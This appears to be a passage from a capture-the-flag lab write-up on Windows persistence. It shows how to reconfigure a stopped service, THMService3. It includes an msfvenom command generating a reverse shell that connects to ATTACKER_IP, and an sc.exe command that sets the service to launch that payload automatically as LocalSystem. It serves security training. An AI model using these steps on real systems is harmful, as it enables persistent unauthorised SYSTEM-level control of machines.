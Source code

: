 You should be able to find a stopped service called THMService3. To query the service's configuration, you can use the following command:

![task4-thmservice3](./images/task4-thmservice3.png)

There are three things we care about when using a service for persistence:

* The executable (**BINARY_PATH_NAME**) should point to our payload.
* The service **START_TYPE** should be automatic so that the payload runs without user interaction.
* The **SERVICE_START_NAME**, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

To reconfigure "THMservice3" parameters, we can use the following command:

```
sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```     

You can then query the service's configuration again to check if all went as expected:

![task4-flag2](./images/task4-flag2.png)
